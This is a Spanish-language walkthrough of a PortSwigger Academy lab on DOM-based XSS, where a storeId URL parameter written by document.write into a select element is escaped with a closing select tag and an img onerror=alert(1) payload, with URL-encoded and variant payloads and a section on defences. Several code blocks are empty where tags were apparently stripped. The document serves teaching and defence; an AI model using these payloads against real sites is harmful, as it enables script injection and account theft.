



# Lab 40 — DOM XSS en `document.write` usando `location.search` dentro de un elemento `<select>`

**PortSwigger Web Security Academy**  
**Categoría:** Cross-site scripting  
**Tipo:** DOM-based XSS  
**URL del laboratorio:** `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element`

---

## 1. Enunciado del laboratorio

El laboratorio se llama:

> **DOM XSS in document.write sink using source location.search inside a select element**

En español:

> **XSS basado en DOM en el sink `document.write`, usando como fuente `location.search`, dentro de un elemento `select`.**

El laboratorio contiene una vulnerabilidad de **cross-site scripting basado en DOM** en la funcionalidad de comprobación de stock.

La aplicación utiliza JavaScript en el navegador para leer datos de la URL mediante `location.search`. Después, esos datos se insertan dinámicamente en la página usando `document.write()`.

El detalle importante es que los datos controlados por el usuario se insertan **dentro de un elemento `<select>`**, concretamente dentro de una etiqueta `<option>`.

Para resolver el laboratorio, hay que construir un payload que:

1. Controle el parámetro de la URL.
2. Llegue a `location.search`.
3. Sea escrito en el DOM mediante `document.write()`.
4. Salga del contexto `<select>` / `<option>`.
5. Inyecte HTML ejecutable.
6. Ejecute `alert(1)`.

---

## 2. Resultado visual inicial

Al iniciar el laboratorio se abre una tienda de productos. No es el blog clásico de otros laboratorios, sino una página tipo shop, con tarjetas de productos, precios, estrellas y botones de **View details**.


En la parte superior vemos el título del lab:

```text
DOM XSS in document.write sink using source location.search inside a select element
```

Esto ya nos da casi todo el mapa mental del ataque:

- **DOM XSS**: la vulnerabilidad ocurre en el navegador, no directamente en el servidor.
- **document.write sink**: el punto peligroso es `document.write()`.
- **source location.search**: la fuente controlable es la query string de la URL.
- **inside a select element**: el dato se inserta dentro de un `<select>`.

Esta última parte es la que hace que el lab sea diferente al DOM XSS anterior con `document.write`. En el lab anterior, el input se metía dentro de un atributo de una imagen. Aquí se mete dentro de una estructura de formulario: `<select><option>...</option></select>`.

---

## 3. Teoría base: qué es DOM XSS

Un **DOM XSS** ocurre cuando JavaScript legítimo de la página toma un dato controlable por el usuario y lo inserta en el DOM de forma insegura.

No hace falta que el servidor refleje directamente el payload en la respuesta HTML original. El problema puede aparecer después, cuando el navegador ejecuta JavaScript y modifica la página.

El flujo general es:

```text
Dato controlado por el usuario
        ↓
Source / fuente
        ↓
JavaScript de la aplicación
        ↓
Sink / sumidero peligroso
        ↓
Modificación insegura del DOM
        ↓
Ejecución de JavaScript
```

En este laboratorio:

```text
URL con parámetro storeId
        ↓
window.location.search
        ↓
URLSearchParams(...).get('storeId')
        ↓
document.write(...)
        ↓
<option selected>INPUT</option>
        ↓
Ruptura de <select>
        ↓

        ↓
alert(1)
```

---

## 4. Source y sink del laboratorio

En DOM XSS siempre conviene identificar dos piezas:

### 4.1. Source

La **source** es el lugar desde donde JavaScript obtiene datos controlados por el usuario.

En este lab, la fuente es:

```javascript
window.location.search
```

Más concretamente:

```javascript
(new URLSearchParams(window.location.search)).get('storeId')
```

Eso significa que si la URL tiene esto:

```text
/product?productId=1&storeId=Nicaragua
```

entonces JavaScript extrae:

```javascript
store = "Nicaragua"
```

Tú controlas ese valor porque puedes modificar la URL.

### 4.2. Sink

El **sink** es el punto donde el dato se usa de una forma peligrosa.

En este laboratorio, el sink es:

```javascript
document.write()
```

`document.write()` escribe cadenas directamente como HTML en el documento. Si la cadena contiene etiquetas HTML, el navegador no las trata como texto inocente: las parsea como HTML real.

El sink vulnerable concreto es:

```javascript
document.write('<option selected>'+store+'</option>');
```

Ahí se concatena una variable controlada por el usuario (`store`) dentro de HTML.

Ese patrón es peligroso:

```javascript
HTML = '<option selected>' + USER_INPUT + '</option>'
```

Si `USER_INPUT` contiene HTML, puede alterar la estructura del documento.

---

## 5. Qué es `location.search`

`location.search` es una propiedad del objeto `window.location` que contiene la parte de la URL que empieza por `?`.

Ejemplo:

```text
https://example.com/product?productId=1&storeId=London
```

En esa URL:

```javascript
window.location.search
```

vale:

```text
?productId=1&storeId=London
```

Luego, con `URLSearchParams`, se puede extraer un parámetro concreto:

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
```

Si la URL es:

```text
/product?productId=1&storeId=Paris
```

entonces:

```javascript
store = "Paris";
```

Si la URL es:

```text
/product?productId=1&storeId=<payload>
```

entonces:

```javascript
store = "<payload>";
```

Ese es el punto de control del atacante.

---

## 6. Qué es `document.write()` y por qué es peligroso

`document.write()` escribe contenido directamente en el documento HTML mientras la página se está parseando.

Ejemplo inocente:

```javascript
document.write('<p>Hola</p>');
```

El navegador inserta:

```html
<p>Hola</p>
```

El problema aparece cuando se usa con datos de usuario:

```javascript
var input = location.search;
document.write(input);
```

Si `input` contiene:

```html

```

el navegador puede crear una etiqueta real y ejecutar el evento.

La regla práctica es:

```text
document.write + input no confiable = XSS casi seguro
```

No porque `document.write()` sea siempre malicioso, sino porque interpreta la cadena como HTML. Si quieres mostrar texto, no deberías usar HTML dinámico sin escapar. Deberías usar APIs como `textContent`, `createTextNode()` o construir nodos de forma segura.

---

## 7. Entramos al producto y localizamos la funcionalidad vulnerable

En la página principal seleccionamos un producto y pulsamos **View details**.

Dentro del detalle del producto aparece una funcionalidad de comprobación de stock. Hay un desplegable con tiendas y un botón **Check stock**.

El desplegable contiene valores como:

```text
London
Paris
Milan
```

La funcionalidad vulnerable está en la forma en que la página genera ese desplegable.

Al inspeccionar el DOM vemos el script relevante:

```html
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

Este código es la pieza central del laboratorio.

---

## 8. Análisis línea por línea del código vulnerable

### 8.1. Lista fija de tiendas

```javascript
var stores = ["London","Paris","Milan"];
```

La aplicación define una lista interna de tiendas. Estos valores son fijos y seguros porque no los controla el usuario.

La intención del desarrollador es generar un `<select>` con estas opciones.

Resultado esperado:

```html
<select name="storeId">
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

### 8.2. Lectura del parámetro `storeId`

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
```

Aquí empieza el problema.

El código lee el parámetro `storeId` de la URL.

Ejemplo:

```text
/product?productId=1&storeId=Nicaragua
```

Entonces:

```javascript
store = "Nicaragua";
```

`store` es controlable por el usuario. Por tanto, desde el punto de vista de seguridad, es dato no confiable.

### 8.3. Inicio del `<select>`

```javascript
document.write('<select name="storeId">');
```

El navegador escribe:

```html
<select name="storeId">
```

Hasta aquí no hay vulnerabilidad porque el contenido escrito es fijo.

### 8.4. Inserción del valor controlado

```javascript
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

Esta es la línea vulnerable.

Si `store` es `Nicaragua`, el HTML generado será:

```html
<option selected>Nicaragua</option>
```

Pero si `store` es un payload, el HTML generado incorporará ese payload sin escapar.

Ejemplo:

```text
storeId=</select>
```

se convertiría en algo como:

```html
<option selected></select></option>
```

La aplicación no está tratando el valor como texto. Lo está metiendo como HTML.

### 8.5. Bucle para añadir las demás tiendas

```javascript
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
```

Este bucle añade las tiendas fijas que no coincidan con la seleccionada.

Si `store` es `London`, evita duplicar `London`.

Pero si `store` es `Nicaragua`, como no coincide con ninguna tienda fija, añade también:

```html
<option>London</option>
<option>Paris</option>
<option>Milan</option>
```

El bucle no es el origen principal de la vulnerabilidad, pero ayuda a ver que la página construye el `<select>` completamente con `document.write()`.

### 8.6. Cierre del `<select>`

```javascript
document.write('</select>');
```

Cierra el desplegable.

El HTML final esperado sería:

```html
<select name="storeId">
  <option selected>Nicaragua</option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

---

## 9. Prueba inocente: `storeId=Nicaragua`

Primero probamos algo no malicioso para comprobar que realmente controlamos el contenido del desplegable.

Modificamos la URL añadiendo:

```text
&storeId=Nicaragua
```

Ejemplo:

```text
/product?productId=1&storeId=Nicaragua
```

La página añade `Nicaragua` como opción seleccionada dentro del desplegable.



En el DOM aparece algo como:

```html
<select name="storeId">
  <option selected="">Nicaragua</option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

Esto confirma tres cosas:

1. `storeId` viene de la URL.
2. El JavaScript lo lee mediante `location.search`.
3. El valor se escribe dentro del `<select>` usando `document.write()`.

Hasta aquí no hay ejecución de JavaScript, pero ya hemos comprobado el flujo completo del dato.

---

## 10. Contexto de inyección: estamos dentro de `<option>`

El valor controlado queda aquí:

```html
<select name="storeId">
  <option selected>INPUT</option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

El contexto exacto es:

```html
<option selected>AQUÍ_VA_TU_INPUT</option>
```

Esto es importante porque no todos los contextos HTML se comportan igual.

No es lo mismo inyectar en:

```html
<p>INPUT</p>
```

que en:

```html

```

que en:

```html
<script>var x = 'INPUT';</script>
```

que en:

```html
<select><option>INPUT</option></select>
```

Cada contexto necesita un payload diferente.

---

## 11. Por qué no basta con meter `<script>alert(1)</script>`

Una idea básica sería probar:

```html
<script>alert(1)</script>
```

Pero aquí estamos dentro de un `<option>` perteneciente a un `<select>`.

Los navegadores tienen reglas especiales para parsear contenido dentro de `<select>` y `<option>`. Un `<select>` no es un contenedor HTML normal como un `<div>`. Está pensado para contener opciones de formulario.

Dentro de un `<select>`, el navegador no trata cualquier etiqueta como HTML ejecutable normal. Muchas etiquetas quedan ignoradas, movidas, tratadas como texto o parseadas de forma especial.

Por eso, si intentas meter directamente una etiqueta ejecutable dentro de `<option>`, puede no ejecutarse.

Ejemplo conceptual:

```html
<select>
  <option></option>
</select>
```

Ese `` no se comporta como un `` normal fuera del `<select>`. El navegador está en un modo de parsing especial para opciones de formulario.

La conclusión es:

```text
No basta con inyectar HTML. Hay que colocarlo en un contexto donde el navegador lo ejecute.
```

En este lab, el contexto ejecutable está **fuera** del `<select>`.

---

## 12. Objetivo real del payload: salir del `<select>`

Como estamos encerrados dentro de:

```html
<select>
  <option selected>INPUT</option>
</select>
```

necesitamos transformar la estructura en algo así:

```html
<select>
  <option selected>texto</option>
</select>


```

Es decir:

1. Dejar algo de texto dentro de la opción.
2. Cerrar el `<select>`.
3. Inyectar una etiqueta ejecutable fuera del `<select>`.

El payload usado es:

```html
"></select>
```

La parte fundamental es:

```html
</select>
```

porque eso fuerza al parser HTML a salir del contexto del desplegable.

---

## 13. Por qué `"></select>` funciona

Esta parte suele generar confusión, así que conviene explicarla con precisión.

El HTML vulnerable generado por la aplicación es:

```html
<select name="storeId">
  <option selected>USER_INPUT</option>
</select>
```

Si `USER_INPUT` es:

```html
"></select>
```

el HTML resultante queda:

```html
<select name="storeId">
  <option selected>"></select></option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

Ahora lo importante es cómo lo interpreta el navegador, no cómo lo vemos como texto.

### Paso 1: abre `<select>`

```html
<select name="storeId">
```

El parser entra en contexto de select.

### Paso 2: abre `<option>`

```html
<option selected>
```

El parser está dentro de una opción.

### Paso 3: lee `">` como texto

La secuencia:

```html
">
```

no es realmente la parte crítica. En este contexto concreto, el `"` y el `>` quedan como contenido/texto o ayudan a que el payload sea robusto si hubiera algún atributo cercano.

La parte que realmente rompe el contexto no es el `>`.

### Paso 4: encuentra `</select>`

```html
</select>
```

Esto sí es lo importante.

Cuando el parser HTML ve `</select>`, cierra el `<select>`. Si había un `<option>` abierto, el navegador lo cierra implícitamente.

El navegador normaliza algo equivalente a:

```html
<select name="storeId">
  <option selected>"></option>
</select>
```

### Paso 5: ahora `` queda fuera del select

Después de cerrar el `<select>`, aparece:

```html

```

Ahora sí estamos en HTML normal. La etiqueta `` se crea como elemento real del DOM.

### Paso 6: se dispara `onerror`

```html

```

El navegador intenta cargar una imagen desde `src=1`.

Como `1` no apunta a una imagen válida, la carga falla.

Cuando una imagen falla, se dispara el evento `error`.

El atributo `onerror` contiene JavaScript:

```javascript
alert(1)
```

Por tanto, se ejecuta el popup.

---

## 14. Punto clave: no es el `>` lo que te saca del `<select>`

Una confusión común es pensar que el payload funciona porque `">` cierra algo.

En este caso, la pieza realmente necesaria para salir del contexto es:

```html
</select>
```

El `">` puede servir como relleno, como técnica genérica para cerrar atributos en otros contextos, o para dejar el HTML más estable, pero no es lo que cierra el `<option>`.

El cierre efectivo ocurre porque el parser ve:

```html
</select>
```

Y al cerrar el `<select>`, también deja atrás el `<option>`.

Frase clave:

```text
No estás cerrando una string. Estás engañando al parser HTML para salir del contexto select.
```

---

## 15. Payload final

Payload en claro:

```html
"></select>
```

Usado en la URL:

```text
/product?productId=1&storeId="></select>
```

En la práctica, algunos caracteres se deben URL-encodear para que viajen correctamente en la URL.

Una versión URL-encoded sería:

```text
%22%3E%3C%2Fselect%3E%3Cimg%20src%3D1%20onerror%3Dalert(1)%3E
```

O combinada en la URL:

```text
/product?productId=1&storeId=%22%3E%3C%2Fselect%3E%3Cimg%20src%3D1%20onerror%3Dalert(1)%3E
```

En tu prueba usaste una forma parcialmente codificada:

```text
product?productId=1&storeId="></select>
```

El navegador decodifica `%20` como espacio y termina interpretando:

```html
"></select>
```

---

## 16. Ejecución práctica del payload

La URL maliciosa queda conceptualmente así:

```text
https://0a6500dc03fed5c48202f2f500d200d0.web-security-academy.net/product?productId=1&storeId="></select>
```

Al cargarla, aparece el popup `alert(1)`.



El laboratorio queda resuelto.



---

## 17. Cómo queda el DOM después de la explotación

Después de explotar la vulnerabilidad, el DOM queda aproximadamente así:

```html
<select name="storeId">
  <option selected="">"&gt;</option>
</select>

<option>London</option>
<option>Paris</option>
...
```

Esto confirma que el payload consiguió exactamente lo que buscábamos:

1. Entró en la opción seleccionada.
2. Cerró el `<select>`.
3. Inyectó una imagen fuera del desplegable.
4. El evento `onerror` quedó activo.
5. El navegador ejecutó `alert(1)`.

El detalle de:

```html
<option selected="">"&gt;</option>
```

muestra que parte del payload queda como texto dentro de la opción.

Pero lo relevante es esta línea:

```html

```

Esa línea ya está fuera del `<select>` y por eso es ejecutable.

---

## 18. Por qué es DOM XSS y no reflected XSS clásico

En un XSS reflejado clásico, el servidor recibe el payload y lo devuelve directamente en el HTML de la respuesta.

Ejemplo reflejado clásico:

```text
GET /search?q=<script>alert(1)</script>
```

El servidor responde:

```html
<h1>Resultados para <script>alert(1)</script></h1>
```

En este laboratorio no ocurre exactamente eso. El servidor entrega una página con JavaScript legítimo. Después, en el navegador, ese JavaScript lee la URL y escribe contenido en el DOM.

El servidor no necesita construir directamente el ``. El navegador lo construye por culpa del JavaScript vulnerable.

Flujo real:

```text
Servidor entrega página con JS
        ↓
Navegador ejecuta JS
        ↓
JS lee window.location.search
        ↓
JS extrae storeId
        ↓
JS hace document.write(...store...)
        ↓
El DOM queda contaminado
        ↓
XSS
```

Por eso la vulnerabilidad es **DOM-based XSS**.

---

## 19. Por qué `URLSearchParams` no protege

El código usa:

```javascript
new URLSearchParams(window.location.search).get('storeId')
```

Esto puede dar una falsa sensación de seguridad.

`URLSearchParams` solo parsea la query string. No sanitiza HTML. No escapa caracteres peligrosos. No convierte el resultado en texto seguro.

Ejemplo:

```javascript
new URLSearchParams('?storeId=').get('storeId')
```

puede devolver:

```text

```

La API solo extrae valores. No decide si son seguros para insertarlos en HTML.

La seguridad depende del uso posterior.

Y el uso posterior es inseguro:

```javascript
document.write('<option selected>'+store+'</option>');
```

---

## 20. Por qué `document.write('<option>'+store+'</option>')` es el error real

El problema no es que exista un parámetro `storeId`.

El problema tampoco es que el usuario pueda modificar la URL.

Eso es normal.

El problema es que el valor de ese parámetro se usa como HTML sin codificación contextual.

Patrón vulnerable:

```javascript
document.write('<option selected>'+store+'</option>');
```

Patrón mental:

```text
HTML fijo + input usuario + HTML fijo
```

Esto permite que el input cierre estructuras, abra etiquetas nuevas o introduzca atributos ejecutables.

La forma segura sería tratar `store` como texto, no como HTML.

---

## 21. Diferencia entre HTML parsing y DOM resultante

Es importante diferenciar:

1. La cadena que construye JavaScript.
2. Cómo el parser HTML interpreta esa cadena.
3. El DOM final que queda en memoria.

JavaScript escribe una cadena como esta:

```html
<option selected>"></select></option>
```

Pero el navegador no conserva necesariamente esa estructura literal. El parser HTML aplica reglas de corrección y cierre implícito.

El DOM final puede ser:

```html
<option selected>"&gt;</option>
</select>

```

La seguridad se decide en el DOM final, no en la intención original del desarrollador.

Frase clave:

```text
El navegador no interpreta intenciones. Interpreta HTML.
```

---

## 22. Por qué `` es una buena carga útil aquí

La etiqueta `` con `onerror` es útil porque:

1. Es corta.
2. No requiere interacción del usuario.
3. Se ejecuta automáticamente si la imagen falla.
4. Funciona fuera de contextos especiales como `<select>`.

Payload:

```html

```

Desglose:

```html
`. No necesitamos que el usuario haga clic. La ejecución se produce por el evento automático `error`.

---

## 23. Qué pasaría si solo metemos `</select>` sin ``

Si usamos:

```html
</select>
```

solo salimos del contexto, pero no ejecutamos nada.

El DOM quedaría roto o corregido, pero sin JavaScript ejecutable.

Necesitamos dos fases:

```text
Fase 1: escapar del contexto
Fase 2: ejecutar código
```

En este lab:

```text
Fase 1: </select>
Fase 2: 
```

---

## 24. Qué pasaría si metemos solo ``

Si no salimos del `<select>`, la etiqueta puede quedar dentro de un contexto donde no se ejecuta como esperamos.

Ejemplo:

```html
<select>
  <option selected></option>
</select>
```

En muchos navegadores, eso no crea un elemento `` funcional dentro del desplegable. El parser lo trata según las reglas del contenido permitido en `<select>`.

Por eso el payload final necesita el cierre:

```html
</select>
```

---

## 25. Variantes del payload

Payload principal:

```html
"></select>
```

Variantes posibles, dependiendo del parser y del contexto:

```html
</select>
```

```html
</option></select>
```

```html
</select><svg onload=alert(1)>
```

```html
</select><body onload=alert(1)>
```

La más directa para este laboratorio es:

```html
"></select>
```

porque funciona bien con la estructura generada por el script y usa un evento automático.

---

## 26. URL encoding: por qué conviene codificar caracteres

Cuando metemos payloads en una URL, algunos caracteres tienen significado especial:

| Carácter | Significado en URL |
|---|---|
| `&` | separa parámetros |
| `=` | separa nombre y valor |
| espacio | no debería ir literal |
| `<` `>` | pueden ser alterados o bloqueados |
| `"` | puede romper copias o herramientas |

Por eso se suele URL-encodear el payload.

Tabla básica:

| Carácter | URL encoded |
|---|---|
| `"` | `%22` |
| `>` | `%3E` |
| `<` | `%3C` |
| `/` | `%2F` |
| espacio | `%20` |
| `=` | `%3D` |

Payload claro:

```html
"></select>
```

Payload codificado:

```text
%22%3E%3C%2Fselect%3E%3Cimg%20src%3D1%20onerror%3Dalert(1)%3E
```

---

## 27. Metodología usada en el lab

La metodología correcta fue:

### 27.1. Abrir el laboratorio

Accedemos a la tienda.

### 27.2. Entrar en un producto

Pulsamos **View details**.

### 27.3. Observar la funcionalidad de stock

Vemos un desplegable con tiendas.

### 27.4. Inspeccionar el DOM

Buscamos scripts relacionados con el desplegable.

Encontramos:

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<option selected>'+store+'</option>');
```

### 27.5. Identificar source

```javascript
window.location.search
```

### 27.6. Identificar sink

```javascript
document.write()
```

### 27.7. Probar control del parámetro

Usamos:

```text
&storeId=Nicaragua
```

Confirmamos que aparece en el `<select>`.

### 27.8. Determinar contexto

El input está dentro de:

```html
<option selected>INPUT</option>
```

### 27.9. Construir payload contextual

Necesitamos salir de `<select>`:

```html
"></select>
```

Luego ejecutar:

```html

```

Payload final:

```html
"></select>
```

### 27.10. Ejecutar y resolver

Se carga la URL con el payload y aparece `alert(1)`.

---

## 28. Por qué este lab es importante

Este laboratorio enseña una idea muy importante:

```text
Un XSS no depende solo del payload. Depende del contexto.
```

Aquí no basta con saber que `document.write()` es peligroso. Hay que entender dónde escribe:

```text
document.write dentro de HTML normal → payload simple

document.write dentro de atributo → romper atributo

document.write dentro de select/option → salir del select

document.write dentro de script → romper JS o script
```

El payload se diseña según el contexto.

---

## 29. Comparación con otros DOM XSS anteriores

En un lab anterior de DOM XSS con `document.write`, el código era parecido a:

```javascript
document.write('');
```

Ahí el input estaba dentro de un atributo `src`.

Payload típico:

```html
"><svg onload=alert(1)>
```

Porque había que salir de:

```html
src="AQUÍ"
```

En este lab, el input está dentro de:

```html
<option selected>AQUÍ</option>
```

Por eso el payload cambia:

```html
"></select>
```

La lógica es la misma:

```text
1. Identificar contexto
2. Salir del contexto
3. Inyectar ejecución
```

Pero el contexto cambia.

---

## 30. Error conceptual habitual: pensar que el servidor es el culpable directo

En DOM XSS, el servidor puede devolver una página aparentemente normal.

El problema puede estar completamente en JavaScript del frontend.

Aquí, la aplicación cliente hace:

```javascript
var store = ...get('storeId');
document.write(...store...);
```

El servidor no necesita saber que el payload es malicioso. El navegador recibe el script y lo ejecuta.

Por eso, al analizar DOM XSS, no basta con mirar solo las respuestas HTTP. Hay que inspeccionar el DOM, el JavaScript y las modificaciones dinámicas.

---

## 31. Cómo se defendería correctamente

### 31.1. No usar `document.write()` con input de usuario

La defensa más clara es no hacer esto:

```javascript
document.write('<option selected>'+store+'</option>');
```

### 31.2. Construir el DOM con APIs seguras

Forma segura:

```javascript
var select = document.createElement('select');
select.name = 'storeId';

if (store) {
    var option = document.createElement('option');
    option.selected = true;
    option.textContent = store;
    select.appendChild(option);
}

document.body.appendChild(select);
```

La clave es:

```javascript
option.textContent = store;
```

`textContent` trata el valor como texto, no como HTML.

Si `store` contiene:

```html
</select>
```

se mostraría como texto, no se ejecutaría.

### 31.3. Validar contra una lista blanca

Como `storeId` debería ser una tienda concreta, la mejor defensa es permitir solo valores conocidos:

```javascript
var stores = ["London", "Paris", "Milan"];
var store = new URLSearchParams(window.location.search).get('storeId');

if (!stores.includes(store)) {
    store = null;
}
```

Así, `Nicaragua` o cualquier payload no sería aceptado.

### 31.4. Evitar HTML concatenado

Mal:

```javascript
'<option>' + store + '</option>'
```

Bien:

```javascript
const option = document.createElement('option');
option.textContent = store;
```

### 31.5. Sanitización si necesitas HTML

Si por alguna razón tienes que aceptar HTML, deberías usar un sanitizador robusto como DOMPurify con una configuración estricta. Pero para un `<select>`, no hay motivo para aceptar HTML: deben ser valores de texto.

### 31.6. Content Security Policy

Una CSP estricta puede reducir impacto, por ejemplo bloqueando eventos inline como `onerror`. Pero CSP no debe ser la defensa principal.

Ejemplo de defensa parcial:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero si la aplicación sigue usando `document.write()` con input no confiable, el bug sigue existiendo. CSP solo puede mitigar algunos vectores.

---

## 32. Lecciones finales

Este laboratorio deja varias ideas importantes:

1. **DOM XSS ocurre en el navegador.**
   El dato entra por la URL, JavaScript lo lee y lo escribe en el DOM.

2. **`location.search` es una source controlable.**
   Todo lo que venga de la URL debe tratarse como no confiable.

3. **`document.write()` es un sink peligroso.**
   Si escribe input del usuario como HTML, puede crear XSS.

4. **El contexto manda.**
   Aquí el dato estaba dentro de `<option>` y `<select>`, por eso hubo que salir del `<select>`.

5. **No basta con meter `<script>`.**
   Hay que entender cómo parsea el navegador.

6. **`</select>` es la pieza clave del escape.**
   Cierra el contexto especial y permite inyectar HTML normal.

7. **`` ejecuta sin interacción.**
   El evento se dispara porque la imagen falla.

8. **La defensa correcta es no concatenar HTML con input.**
   Usa `textContent`, `createElement()` y validación por lista blanca.

---

## 33. Resumen ejecutivo

Vulnerabilidad:

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<option selected>'+store+'</option>');
```

Source:

```javascript
window.location.search
```

Sink:

```javascript
document.write()
```

Contexto:

```html
<select>
  <option selected>INPUT</option>
</select>
```

Payload:

```html
"></select>
```

URL payload:

```text
/product?productId=1&storeId=%22%3E%3C%2Fselect%3E%3Cimg%20src%3D1%20onerror%3Dalert(1)%3E
```

Efecto:

```html
</select>

```

Resultado:

```text
alert(1) ejecutado y laboratorio resuelto
```
